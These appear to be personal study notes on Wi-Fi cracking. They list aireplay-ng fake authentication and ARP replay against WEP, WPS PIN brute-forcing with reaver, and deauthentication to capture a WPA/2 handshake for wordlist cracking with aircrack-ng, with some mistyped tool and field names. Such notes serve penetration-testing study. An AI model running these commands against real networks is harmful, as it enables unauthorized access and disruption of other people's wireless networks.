 **What if the AP isnt busy?**
 * We need to force the AP to generate new IV's
 * APs only communicate with connected clients (we arent connected yet)
 	* We can associate with the AP, and still force the AP to generate IV's

#### How to associate with the AP
```bash
airplay-ng --fakeauth 0 -a <bssid>  -h <adapter MAC> <int>
```
#### How to force AP to generate IV's
* ARP Request Replay attack
	* wait for an arp packet
	* capture it, and replay it (retransmit it)
	* This causes the AP to produce new packets with a new IV
	* Keep doing this still we have enough IV's to crack the key
```bash
airplay-ng --arpreplay -b <bssid> -h <MAC of adapter> <interface>
aircrack-ng <file>.cap
```
## WPA/WPA2
* Much more secure than WEP
* Each packet is encrypted using a unique temporary key
* Packets contain no useful information

### WPS (hacking WPA/2 with out wordlist)
* Is a feature of WPA/2
* Allows clients to connect with out the password
* Authentication is done using an 8 digit pin
	* This pin can be used to compute the actual password
	* Doesnt work if push button auth is enabled on the router for WPS

```bash
wash --interface <interface> # see all networks using WPS
airplay-ng --fakeauth 30 -a <bssid> -h <adapters mac> <interface> # associate
reaver --bssid <bssid> --channel <ch> --interface <int> --vvv --no-associate # crack using wps
```

### Capturing WPA/2 handshake (hacking with wordlist)
* Packets of WPA encryption contain no useful information
* Packts from the handshake only contain useful information
* Handshake information:
	* SP address
	* SJA address
	* AP nonce
	* SJA nonce
	* EAPOL
	* Payload
	* MIC
* Use the handshake information excluding the MIC to try a plaintext password and compare to MIC
* To force a new handshake use:
	* `aireplay-ng --deauth 4 -a <bssid> -c <target client> <interface>`
* Capture this handshake using `airodump-ng` save get cap file:
	* aircrack-ng <file>.cap -w [wordlist]
